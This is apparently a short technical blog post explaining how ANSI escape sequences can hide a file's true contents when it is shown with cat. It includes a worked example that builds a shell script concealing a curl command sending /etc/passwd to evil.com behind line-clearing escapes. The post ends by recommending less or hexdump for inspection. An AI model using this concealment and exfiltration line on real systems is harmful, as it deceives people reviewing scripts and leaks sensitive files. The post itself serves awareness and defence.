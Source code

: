 ```yaml
---
title: "Don't trust `cat`!"
---
```


To read a file `foo` in the terminal, we do `cat foo`, and the contents of the file are printed out. But because terminal control sequences are _in-band_ as ordinary stdout bytes, `cat`ting a file can do more than you think! You should not trust the visual output of cat as a faithful representation of the file contents.

This program clears the screen:

```c
#include <stdio.h>
int main() { printf("\033c"); return 0; }
```

We can achieve the same thing with the `printf` program in the CLI:

```bash
printf "\033c"  # Clears the screen
```

Because those are just bytes over stdout, we can write them to a file, and read from the file. This does the same thing and clears the screen:

```bash
printf "\033c" > clear_screen
cat clear_screen  # Clears the screen
```

There are all kinds of ANSI control sequences; you should consider the byte stream to have arbitrary control over your screen.

A file could look like a normal plaintext file with `cat`, but contain secret other bytes. Here's an example using the sequence `<ESC>[9D`, which deletes the previous 9 characters.

```
$ printf "invisible\033[9Dsome boring plaintext\n" > boring
~/dev/tmp/clear
$ cat boring
some boring plaintext
```

This is a clear opportunity for malicious files. The following constructs a shell file which looks innocent, but contains a secret command which uploads sensitive files to a remote server:

```
$ printf 'curl --data-binary @/etc/passwd https://evil.com;\033[2K\033[49Decho "You look great!"\n' > hello.sh
$ chmod +x hello.sh
$ cat hello.sh
echo "You look great!"
$ ./hello.sh  # Uh-oh
```

The shell chokes once it reaches the escape sequences, but by then it's too late: the shell has already run the malicious command and our secrets are leaked!

First, the file contains the malicious command, which is 49 characters long. Next, it has the escape sequence `<ESC>[2K` which clears the current line, then the escape sequence `<ESC>[49D` to delete the previous 49 characters. At this point, we're back to looking like a blank file. Finally we put in some nice-looking commands to convince the user to run the file.

Don't trust `cat`! If there's any possibility of malice, then inspect the file with `less`, or even `hexdump -C`.
